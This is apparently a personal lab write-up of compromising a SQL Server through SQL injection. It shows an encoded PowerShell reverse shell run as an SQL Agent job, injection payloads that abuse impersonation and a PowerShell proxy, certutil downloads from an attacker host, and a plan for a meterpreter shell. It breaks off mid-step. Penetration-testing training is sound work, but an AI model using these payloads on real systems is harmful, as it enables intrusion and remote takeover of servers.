EXEC sp_add_jobstep @job_name = N'yovecio_job', @step_name = N'yovecio_step', @subsystem = N'PowerShell', @command = N'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQA0ACIALAA1ADUANQA1ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==', @retry_attempts = 1, @retry_interval = 5, @proxy_id=1;
EXEC dbo.sp_add_jobserver @job_name = N'yovecio_job';
EXEC dbo.sp_start_job N'yovecio_job';
```

OBS: Here as you can see, i added @proxy_id=1 at the end of the stored procedure sp_add_jobstep and added the impersonation at the beginning after we choose the MSDB.

And now is the moment of truth, I setup a NC listener and send the command: Edit is not working.

I will add a table called jobs and link that to sysjobs: https://learn.microsoft.com/en-us/sql/relational-databases/system-tables/dbo-sysjobs-transact-sql?view=sql-server-ver16

```Bash
[22:22:07] [INFO] retrieved: 'dbo.sqlmapfile'
Database: daedalus
[8 tables]
+-------------+
| Countries   |
| Flights     |
| impersonate |
| jobs        |
| packages    |
| proxies     |
| roles       |
| sqlmapfile  |
+-------------+

Database: daedalus
Table: jobs
[3 columns]
+---------+
| Column  |
+---------+
| name    |
| enabled |
| job_id  |
+---------+
```

And again let's try to inject this:

```SQL
INSERT INTO jobs(job_id, name, enabled) SELECT job_id, name, enabled FROM msdb.dbo.sysjobs;
```

Ok nothing worked so far so I went back to basics and checked again all users permissions since firts time seems like the query I run was only from the Daedalus DB thats's why most probably nothing came out so far, so I recreated the roles table and rewrited the query to point it to msdb instead:



```Bash
Database: daedalus
Table: roles
[39 entries]
+------------------------------+-----------------------------------+
| rolename                     | username                          |
+------------------------------+-----------------------------------+
| public                       | No members                        |
| TargetServersRole            | No members                        |
| SQLAgentUserRole             | SQLAgentReaderRole                |
| SQLAgentUserRole             | dc_operator                       |
| SQLAgentUserRole             | MS_DataCollectorInternalUser      |
| SQLAgentUserRole             | daedalus_admin                    |
| SQLAgentUserRole             | WEB01\\svc_dev                    |
| SQLAgentReaderRole           | SQLAgentOperatorRole              |
| SQLAgentReaderRole           | daedalus_admin                    |
| SQLAgentReaderRole           | WEB01\\svc_dev                    |
| SQLAgentOperatorRole         | PolicyAdministratorRole           |
| SQLAgentOperatorRole         | daedalus_admin                    |
| SQLAgentOperatorRole         | WEB01\\svc_dev                    |
| DatabaseMailUserRole         | No members                        |
| db_ssisadmin                 | No members                        |
| db_ssisltduser               | dc_operator                       |
| db_ssisltduser               | dc_proxy                          |
| db_ssisoperator              | dc_operator                       |
| db_ssisoperator              | dc_proxy                          |
| db_ssisoperator              | MS_DataCollectorInternalUser      |
| dc_operator                  | dc_admin                          |
| dc_admin                     | MS_DataCollectorInternalUser      |
| dc_proxy                     | No members                        |
| PolicyAdministratorRole      | ##MS_PolicyEventProcessingLogin## |
| PolicyAdministratorRole      | ##MS_PolicyTsqlExecutionLogin##   |
| ServerGroupAdministratorRole | No members                        |
| ServerGroupReaderRole        | ServerGroupAdministratorRole      |
| UtilityCMRReader             | No members                        |
| UtilityIMRWriter             | No members                        |
| UtilityIMRReader             | UtilityIMRWriter                  |
| db_owner                     | dbo                               |
| db_accessadmin               | No members                        |
| db_securityadmin             | No members                        |
| db_ddladmin                  | No members                        |
| db_backupoperator            | No members                        |
| db_datareader                | No members                        |
| db_datawriter                | No members                        |
| db_denydatareader            | No members                        |
| db_denydatawriter            | No members                        |
+------------------------------+-----------------------------------+
```

Ok cool now we are sure daedalus_admin have SQL Agent roles on MSDB which means we should be able to exploit that PowerShell proxy as described into Optiv article I linked before.

After several test i went back and tried manually to work on it as I gained some more experience on SQLi done manually and found out that this payload seems working fine and parsing the 5 columns returned by the app: **China' UNION SELECT 1,2,3,4,5--**

* * *

## Back on track:

Now that we have a working payload we can use that to perform our fuzzing as it seems like the SQLMAP is messing up with commands, so now we should have total control over it!

But then looking for tips I can see that this is working!

```
China'; USE msdb;EXECUTE AS LOGIN = N'daedalus_admin';EXEC dbo.sp_add_job @job_name = N'yovecio_job';EXEC sp_add_jobstep @job_name = N'yovecio_job', @step_name = N'yovecio_step', @subsystem = N'PowerShell', @command = N'certutil.exe -urlcache -f http://10.10.14.18/shell.ps1 C:\Users\Public\Music\shell.ps1', @retry_attempts = 1, @retry_interval = 5, @proxy_id=1;EXEC dbo.sp_add_jobserver @job_name = N'yovecio_job';EXEC dbo.sp_start_job N'yovecio_job';-- xxx
```

As the script get's Downloaded:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]                                                                                                                                                                                                      
└─# python3 -m http.server 80                                                                                                                                                                                                                                
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...                                                                                                                                                                                                     
                                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                             
10.13.38.20 - - [28/Dec/2023 16:03:41] "GET /shell.ps1 HTTP/1.1" 200 -                                                                                                                                                                                       
10.13.38.20 - - [28/Dec/2023 16:04:13] "GET /shell.ps1 HTTP/1.1" 200 -
```

And now sending the command to execute the script should do the trick! But it's not working so to make my life easier I will create a meterpreter reverse shell exe, upload to the victim and then send a command to call the saved shell. 

- Sending the command to download the revshell(remember to URL encode if sending via Burp Repeater):

```
China'; USE msdb;EXECUTE AS LOGIN = N'daedalus_admin';EXEC dbo.sp_add_job @job_name = N'yovecio_job';EXEC sp_add_jobstep @job_name = N'yovecio_job', @step_name = N'yovecio_step', @subsystem = N'PowerShell', @command = N'certutil.exe -urlcache -f http://10.10.14.18/backup.exe C:\Users\Public\Music\backup.exe', @retry_attempts = 1, @retry_interval = 5, @proxy_id=1;EXEC dbo.sp_add_jobserver @job_name = N'yovecio_job';EXEC dbo.sp_start_job N'yovecio_job';-- xxx
```

And we can see that the exe get's requested by the victim on our Python HTTP server:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Ascension]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.13.38.20 - - [04/Jan/2024 11:06:00] "GET /backup.exe HTTP/1.1" 200 -
```

- Next we need to send the command to open the backup.exe and start the meterpreter shell:

&nbsp;